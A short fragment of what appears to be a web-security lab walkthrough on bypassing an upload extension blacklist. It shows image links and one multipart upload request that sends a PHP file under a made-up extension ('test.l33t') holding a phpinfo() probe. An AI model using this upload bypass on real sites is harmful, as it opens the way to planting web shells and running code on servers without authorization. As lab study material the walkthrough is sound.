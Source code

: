![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/2.png)

Upload Phpinfo():

```
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

```

![img](images/1%20-%20Web%20shell%20upload%20via%20extension%20blacklist%20bypass/3.png)
